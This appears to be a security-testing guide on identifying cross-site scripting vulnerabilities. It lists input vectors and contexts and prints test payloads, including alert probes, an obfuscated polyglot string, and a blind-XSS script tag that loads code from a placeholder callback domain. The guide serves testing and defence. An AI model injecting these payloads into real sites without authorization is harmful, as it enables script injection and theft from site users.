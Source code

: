 ```yaml
---
title: XSS Identification Techniques
description: Methods and approaches for discovering Cross-Site Scripting vulnerabilities in web applications
---
```


# XSS Identification Techniques

This guide covers methodical approaches to identifying Cross-Site Scripting (XSS) vulnerabilities in web applications. Effective identification is the first step in securing applications against these common but dangerous vulnerabilities.

## Understanding XSS Entry Points

XSS vulnerabilities occur when applications include untrusted data in web pages without proper validation or escaping. Common entry points include:

### User Input Fields

- **Form fields**: Text inputs, textareas, hidden fields
- **URL parameters**: Query strings, path parameters
- **HTTP headers**: Referer, User-Agent, Cookie
- **File uploads**: Especially those that allow HTML or SVG content

### Context Awareness

The effectiveness of XSS identification depends on understanding the context where user input is reflected:

- **HTML context**: Between HTML tags or attributes
- **JavaScript context**: Within script blocks or event handlers
- **CSS context**: Within style attributes or style tags
- **URL context**: In href, src, or other URL attributes
- **DOM context**: Client-side JavaScript processing

## Manual Testing Techniques

### Basic Payload Testing

Start with simple, non-malicious payloads to identify reflection points:

```html
<test>
';alert(1);'
"><script>alert(1)</script>
```

### Context-Specific Testing

Tailor your payloads to the specific context:

**HTML Context**:
```html
\<img src="x" onerror="alert(1)"\>
```

**JavaScript Context**:
```javascript
';alert(1);//
```

**Attribute Context**:
```html
" onmouseover="alert(1)"
```

### DOM-Based XSS Testing

For DOM-based XSS, focus on client-side processing:

1. Identify sources (user-controllable inputs)
2. Trace data flow to sinks (dangerous JavaScript functions)
3. Test with payloads targeting specific sinks:

```javascript
location.hash = "#\<img src=\"x\" onerror=\"alert(1)\"\>"
```

## Automated Testing Approaches

### Scanner-Based Testing

Use specialized tools to automate discovery:

- **Web Application Scanners**: OWASP ZAP, Burp Suite
- **XSS-Specific Tools**: XSStrike, XSSer, XSS Hunter

### Fuzzing Techniques

Systematically test variations of payloads:

1. **Character set variations**: Testing different encoding schemes
2. **Tag variations**: Using different HTML tags and events
3. **Protocol variations**: javascript:, data:, vbscript: protocols

## Advanced Identification Methods

### Blind XSS Detection

Identify XSS vulnerabilities that may not be immediately visible:

1. Use payloads that call back to an external server
2. Deploy in areas where input might be viewed by others (admin panels, logs)

```html
\<script src="https://your-callback-domain.com/xss.js"\>\</script\>
```

### Polyglot XSS Payloads

Use payloads designed to work across multiple contexts:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=\"alert()\" )//%0D%0A%0d%0a//\</stYle/\</titLe/\</teXtarEa/\</scRipt/--!\>\x3csVg/\<sVg/oNloAd=\"alert()\"///\>\x3e
```

### Parameter Pollution

Test for XSS via parameter duplication:

```html
https://example.com/?param"safe"&param"\<script\>alert(1)\</script\>"
https://example.com/?param"safe"&param"\<script\>alert(1)\</script\>"
```

## Systematic Testing Methodology

### Reconnaissance Phase

1. **Map the application**: Identify all user input points
2. **Understand technologies**: Determine frameworks and libraries in use
3. **Review client-side code**: Analyze JavaScript for potential sinks

### Testing Phase

1. **Input reflection testing**: Determine where and how input is reflected
2. **Context analysis**: Identify the context of each reflection point
3. **Payload crafting**: Develop context-specific test payloads
4. **Filter detection**: Identify any filtering or sanitization in place

### Verification Phase

1. **Proof-of-concept**: Develop a non-destructive payload that proves the vulnerability
2. **Impact assessment**: Determine the potential impact of the vulnerability
3. **Documentation**: Record findings with clear reproduction steps

## Tools and Resources

### Essential Tools

- **Proxy tools**: Burp Suite, OWASP ZAP
- **Browser extensions**: XSS Me, DOM Inspector
- **Payload collections**: XSS Payload List, PayloadsAllTheThings

### Testing Checklists

- **Input vectors**: Forms, URLs, cookies, headers
- **Output contexts**: HTML, JS, CSS, attributes
- **Encoding variations**: URL, HTML, JavaScript, Base64

## Next Steps

After identifying XSS vulnerabilities, explore:

- [Evasion Techniques](/docs/xss/attack-techniques/evasion-techniques) - Learn how to bypass XSS filters
- [Exploitation Strategies](/docs/xss/attack-techniques/exploitation-strategies) - Understand how to demonstrate impact
